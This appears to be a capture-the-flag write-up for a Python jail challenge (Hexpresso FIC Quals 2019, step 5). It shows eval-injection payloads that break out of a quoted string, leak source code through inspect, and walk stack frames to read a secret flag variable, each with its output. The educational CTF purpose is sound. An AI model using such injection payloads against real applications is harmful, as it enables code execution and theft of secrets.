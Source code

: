 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 5
slug: hexpresso-fic-5
date: 20/12/2019 05
---
```


The fifth step is a Python jail that we must escape.

![Introduction](/assets/hexpresso-fic-quals/step5/intro.png)

We are provided a few files allowing to connect to the challenge:

```
$ socat stdio openssl-connect:ctf.hexpresso.fr:2323,cert=client.pem,cafile=server.crt,verify=0
>et ça fait bim bam boum
Bad flag !
```

Well... Looks like our input is somehow compared to the actual flag. Let's
try to break the script in order to get a trace:

```
>'
Traceback (most recent call last):
  File "./main.py", line 28, in <module>
    main()
  File "./main.py", line 21, in main
    if flag == get_input():
  File "./main.py", line 15, in get_input
    return eval(f"""'{input(">")}'""")
  File "<string>", line 1
    '''
      ^
SyntaxError: EOF while scanning triple-quoted string literal
```

There is a lot of information here! What we know:

* The script is `main.py`
* Our input is retrieved using the `input` function
* The [f-string](https://realpython.com/python-f-strings/) feature is used,
so we are in a Python 3.6 runtime at least
* Our input is put into single quotes and forwarded to `eval`
* We are in a function `get_input`
* `get_input` is called in main
* There is a `flag` variable in the `main` function that looks to hold the flag

We can inject Python using a standard closing/comment payload such as:

```
>vroum' and print('Hello') #
Hello
Bad flag !
```

In that example, the following is evaluated:

```python
'vroum' and print('Hello') #'
```

As `'vroum'` is a truthy, the other side of the `and` gets to be evaluated
and our `print` is executed.

I used [inspect](https://docs.python.org/3/library/inspect.html) in order
to leak the source code:

```
>vroum' + print(__import__('inspect').getsource(get_input)) #
def get_input():
    return eval(f"""'{input(">")}'""")
[truncated]
```

Let's get main:

```
>vroum' + print(__import__('inspect').getsource(main)) #
def main():
    flag = get_flag()

    if flag == get_input():
        print(SUCCESS)
    else:
        print(FAIL)
[truncated]
```

The `get_flag` function looks promising!

```
>vroum' + print(__import__('inspect').getsource(get_flag)) #
def get_flag():
    flag = os.environ.get("FLAG", "FLAG{LOCAL_FLAG}")
    os.environ.update({"FLAG": ""})
    return flag
```

Too bad for us... The flag is retrieved and then emmediately removed
from the environment at the start of the script. We'll have to go back a couple
of scopes in order to reach the `flag` variable and print its content.

```
>vroum' and print(__import__('inspect').currentframe().f_back.f_back.f_locals) #
{'flag': 'Next step : http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr'}
Bad flag !
```

This payload is actually very simple:

* Import `inspect`
* Get the current frame (in the `eval`)
* Go back one scope (to `get_input`)
* Go back another scope (to `main`)
* Print the local variables (of `main`)

[Click here](/posts/hexpresso-fic-6) for the next step!
